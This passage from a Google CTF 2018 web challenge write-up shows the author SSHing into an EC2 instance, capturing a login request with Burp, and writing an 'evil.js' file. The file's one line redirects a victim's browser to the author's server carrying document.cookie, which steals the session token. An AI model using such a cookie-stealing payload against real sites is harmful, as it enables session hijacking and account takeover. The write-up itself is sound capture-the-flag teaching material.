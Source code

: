 <p align="center"><a href="/images/gctf18-web-16.png"><img src="/images/gctf18-web-16.png"></a></p>

From here, we can SSH into our EC2 instance using our SSH key.

```console
root@kali:~/Google-CTF# ssh -i ec2.pem ec2-user@18.223.182.138

       __|  __|_  )
       _|  (     /   Amazon Linux AMI
      ___|\___|___|

https://aws.amazon.com/amazon-linux-ami/2018.03-release-notes/
10 package(s) needed for security, out of 12 available
Run "sudo yum update" to apply all updates.
[ec2-user@ip-172-31-23-163 ~]$ 
```

The first thing we have to do is figure out the structure of the login request. We can simply do this by capturing the login request with burp.

<p align="center"><a href="/images/gctf18-web-17.png"><img src="/images/gctf18-web-17.png"></a></p>

Next, we need to build an evil JavaScript file that when called will send the session token in a parameter to our server. We can use [document.cookie](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie) function to grab that cookie.

```console
[ec2-user@ip-172-31-23-163 ~]$ vim evil.js
[ec2-user@ip-172-31-23-163 ~]$ cat evil.js 
document.location='https://18.223.182.138/flag?c='+document.cookie;
```
